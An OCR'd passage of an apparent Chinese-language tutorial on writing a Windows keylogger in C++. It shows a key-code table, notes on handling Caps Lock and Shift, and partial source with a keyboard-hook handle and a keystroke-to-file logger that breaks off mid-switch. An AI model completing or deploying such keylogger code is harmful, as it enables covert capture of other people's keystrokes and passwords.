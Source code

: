 | K    | 75     | X    | 88     | Page Up   | 33     | - _         | 189    |
| L    | 76     | Y    | 89     | Page Down | 34     | / ?         | 191    |
| M    | 77     | Z    | 90     | End       | 35     | \Q ~        | 192    |
|      |        |      |        | Home      | 36     | [ {         | 219    |
|      |        |      |        |           |        | \ \|        | 220    |
|      |        |      |        |           |        | ] }         | 221    |
|      |        |      |        |           |        | '' '        | 222    |

我们完全可以把字母部分的单独处理，通过检测<kbd>cap</kbd>和<kbd>Shift</kbd>两个按键的状态，判断到底要不要大写。

此部分为较全的键盘录入，为此特意构建了函数

```cpp
#include <windows.h>
#include <stdio.h>

HINSTANCE g_hInst = NULL;
HHOOK g_hHook = NULL;

void print(const char* format, ...)
{
	char* buffer = new char[2048];
	if (buffer == NULL)
		return;

	va_list vl;
	va_start(vl, format);
	vsprintf(buffer, format, vl);
	va_end(vl);

	HANDLE hFile = CreateFile("log.txt", GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == INVALID_HANDLE_VALUE)
		return;

	DWORD dwWrite = lstrlen(buffer);
	SetFilePointer(hFile, 0, 0, FILE_END);
	WriteFile(hFile, buffer, dwWrite, &dwWrite, NULL);
	CloseHandle(hFile);

	delete[]buffer;
}

void saveKeyToFile(int pressedKey)
{
	switch (pressedKey) {
	case 8:
		print("%s", "[R]");
		break;
	case 10: // 10 y 13 son para enter (?)
		print("%s", "\r\n");
		break;
	case 13:
		print("%s", "\r\n");
		break;
	case 32:
		print("%s", " ");
		break;
	case 42:
		print("%s", "*");
```